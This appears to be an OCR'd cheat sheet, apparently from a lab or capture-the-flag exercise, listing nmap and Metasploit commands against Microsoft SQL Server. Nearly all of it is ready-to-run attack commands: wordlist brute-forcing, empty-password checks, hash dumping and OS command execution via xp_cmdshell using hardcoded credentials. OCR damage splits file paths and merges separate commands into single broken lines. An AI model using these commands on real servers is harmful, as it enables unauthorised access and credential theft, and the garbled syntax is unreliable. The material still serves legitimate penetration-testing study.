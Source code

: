 > The command retrieves NTLM authentication information from the Microsoft SQL Server instance running on port 1433 of the target IP.

```Shell
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Deskt p/wordlist/100-common-p asswords.txt <ip-address>
```

> Brute Force using NMAP.\

```Shell
nmap -p 1433 --script ms-sql-empty-password <ip-address>
```

> Login through empty password.

```Shell
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" <ip-address> -oN output.txt gvim output.txt
```

> The command runs a SQL query (`SELECT * FROM master..syslogins`) on the Microsoft SQL Server instance using the `admin` credentials with password `anamaria`, saves the output to `output.txt`, and then opens this file in `gvim`.

```Shell
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria <ip-address>
```

> The command retrieves password hashes from the Microsoft SQL Server using the provided `admin` credentials with password `anamaria`.

```Shell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig" <ip-address>
```

> The command executes the `ipconfig` command on the Microsoft SQL Server at `<ip-address>` using the `admin` credentials with password `anamaria` and the `xp_cmdshell` stored procedure.

```Shell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt" <ip-address>
```

> The command runs `type c:\flag.txt` on the Microsoft SQL Server at using the `admin` credentials with password `anamaria`, which attempts to read and display the contents of `c:\flag.txt` via the `xp_cmdshell` procedure.

```msfconsole
use auxiliary/scanner/mssql/mssql_login 
set RHOSTS <ip-address> 
set USER_FILE /root/Desktop/wordlist/common_users.txt 
set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt 
set VERBOSE false exploit
```

> MSSQL brute force using metasploit.

```msfconsole
use auxiliary/admin/mssql/mssql_enum 
set RHOSTS <ip-address>
exploit
```
